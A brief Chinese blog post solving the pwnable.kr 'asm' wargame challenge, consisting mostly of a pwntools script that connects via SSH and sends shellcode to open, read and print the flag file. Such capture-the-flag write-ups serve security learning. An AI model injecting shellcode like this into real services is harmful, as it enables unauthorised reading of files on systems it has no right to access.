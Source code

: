 ```yaml
---
title: pwnable.kr之asm
date: 2017-09-29 16:12:29
tags: 
 - shellcode
 - pwnable.kr
 - pwntools
---
```




> 这道题考查写shellcode, 用keystone折腾了半天上网一查发现我们对pwntools的运用真的不够熟练

```python
from pwn import *

con = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
p = con.connect_remote('localhost', 9026)

context(os='linux', arch='amd64')
shellcode = ""
shellcode += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
shellcode += shellcraft.open('rsp', 0, 0)
shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1, 'rsp', 100)

p.recvuntil('shellcode: ')
p.send(asm(shellcode))
print p.recvline()

```

所有的系统调用都可以直接生产, ssh也可以连过去, 另外需要注意的就是context很重要.
